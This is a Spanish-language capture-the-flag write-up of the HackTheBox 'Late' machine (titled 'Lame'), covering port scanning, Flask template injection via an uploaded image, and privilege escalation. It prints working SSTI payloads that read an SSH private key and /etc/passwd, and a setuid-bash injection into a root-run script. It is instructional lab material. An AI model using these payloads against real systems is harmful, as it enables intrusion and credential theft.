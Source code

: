 ```yaml
---
layout:   post
title:    "Write Up Lame."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,Upload,SSTI,SSH,Write-Up-Machine,Starting-Point,eWPT,OSWE,OSCP]  
---
```

![list](/assets/img/late/late.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.156 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,80 -sV -sC 10.10.11.156 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb con esto no conseguimos nada.

![list](/assets/img/late/Arch-2022-06-15-16-58-15.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `ctrl + u` podemos encontrar el dominio `images.late.htb` en cual ingresamos al `/etc/host` y recargamos.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-21-31.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `gobuster` podemos encontrar el dominio `images.late.htb` en cual ingresamos al `/etc/host` y recargamos.

![list](/assets/img/late/Arch-2022-06-15-16-33-26.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En este dominio vemos que podemos subir archivos pero tambien algo interesante 

`with Flask` y muchas de las veces es vulnerable a `Server Side Template Injection`.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-56-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con libreOfice subimos una imagen con `{{4+4}}`. 

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-06-03.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como la respuesta es `16` corrovoramos que si es vulnerable a SSTI. 

Sabiendo esto usaremos un payload de  [PayloadsAllTheThings] crearemos una imagen que nos 

permita ejecutar comandos tal para ver los `usuarios` y la `id_rsa`.

[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-48-23.png){:.lead width="800" height="100" loading="lazy"}

```bash
{{ cycler.__init__.__globals__.os.popen('id; cat ~/.ssh/id_rsa').read() }}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta es la id_rsa. 

Tenemos su id_rsa, ahora consigamos elusuario para entonces conectarnos atraves de ssh.

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-18-52.png){:.lead width="800" height="100" loading="lazy"}

```bash
{{ cycler.__init__.__globals__.os.popen('id; cat /etc/passwd').read() }}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta son los usuarios.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.

***
## Escalacion de privileguios

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles 

vectores para escalar de privilegios, podemos ver con pspy que root ejecuta un 

archivo llamado `ssh-alert.sh` cada que iniciamos sesión por ssh.


```bash
echo "chmod u+s /bin/bash" >> ssh-alert.sh
```
{:.note}
Inyectamos1 permisos u+s al archivo ssh-alert.sh y nos salimos ppero nos volvemos a 

conectarpor ssh.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.


![list](/assets/img/late/Parrot-SO3-2022-08-01-17-11-25.png){:.lead width="800" height="100" loading="lazy"}


Para este punto solo debemos hacer `bash -p` y buscar las flag del user y la de root que estanen los 

escritoriosde svc_acc y de /root respectivamente.

***
```bash
🎉 Felicitaciones ya has comprometido Late de HackTheBox 🎉
```
{:.centered}
***
<!---Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}--->
